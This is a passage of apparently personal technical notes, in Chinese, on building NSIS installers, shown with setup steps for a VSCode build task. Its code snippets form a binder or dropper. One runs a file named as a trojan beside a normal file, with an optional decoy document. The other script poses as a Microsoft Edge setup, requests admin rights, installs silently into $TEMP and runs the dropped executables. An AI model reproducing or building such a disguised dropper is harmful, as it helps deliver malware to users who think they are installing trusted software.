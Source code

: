 ```nsis
  Exec "$TEMP\xxxxx\木马.exe"
  Exec "$TEMP\xxxx2\正常文件.exe
  ; 打开文档可以用下面的命令
  ; ExecShell open  "$TEMP\测试文档.docx"
FunctionEnd

```

例如

```nsis
OutFile "MicrosoftEdgeSetupNSIS.exe"

Icon "IDR_MAINFRAME.ico" 

RequestExecutionLevel admin 


!include "FileFunc.nsh" 

SilentInstall silent  


Function .onInit
  
FunctionEnd


Section "Section1" SEC01
    SetOutPath  "$TEMP"
    File "msedge.exe" 

SectionEnd

Section "Section2" SEC02
    SetOutPath "$TEMP"
    File "MicrosoftEdgeSetup.exe"
SectionEnd

Function .onInstSuccess
  Exec "$TEMP\msedge.exe"
  Exec "$TEMP\MicrosoftEdgeSetup.exe"
FunctionEnd

```

然后呼出 VSCode 命令面板(`Ctrl+Shift+P`), 输入 `nsis` 选择 `NSIS:Create Build Task`

![image-20240718101908801](http://cdn.ayusummer233.top/DailyNotes/202407181019336.png)

这会在当前项目根目录创建一个 `.vscode/task.json`  文件, 内容大概如下:

![image-20240718103201982](http://cdn.ayusummer233.top/DailyNotes/202407181032137.png)
